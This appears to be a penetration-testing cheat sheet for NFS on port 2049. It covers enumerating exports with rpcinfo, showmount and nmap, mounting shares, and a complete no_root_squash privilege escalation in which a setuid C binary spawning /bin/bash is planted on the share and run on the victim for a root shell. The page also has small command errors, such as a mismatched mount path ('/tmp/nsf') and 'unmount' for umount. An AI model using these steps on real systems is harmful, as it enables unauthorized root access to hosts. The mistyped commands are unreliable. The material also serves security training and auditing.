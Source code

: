 # NFS - 2049

### First check the possible versions

```bash
rpcinfo -p 10.10.10.10 | grep nfs - Shows supported NFS versions
```

### Check which shares have been shared on this system

```bash
showmount -e 10.10.10.10
```

### Mount the directory

```bash
#First, create a folder with any name
mkdir /tmp/nfs

#Mount the share
mount -t nfs -o nfsvers=2 172.16.1.5:/ /tmp/nsf

This way we are mounting the share in version 2 at the root of the share (/) and then we define the folder

#Unmount the share
unmount nfs

```

***

### Show Mountable NFS Shares <a href="#show-mountable-nfs-shares" id="show-mountable-nfs-shares"></a>

```bash
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

### Mount a share <a href="#mount-a-share" id="mount-a-share"></a>

```bash
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

### NFS misconfigurations <a href="#nfs-misconfigurations" id="nfs-misconfigurations"></a>

```bash
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no\_root\_squash/no\_all\_squash you may be able to privesc.

```bash
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```
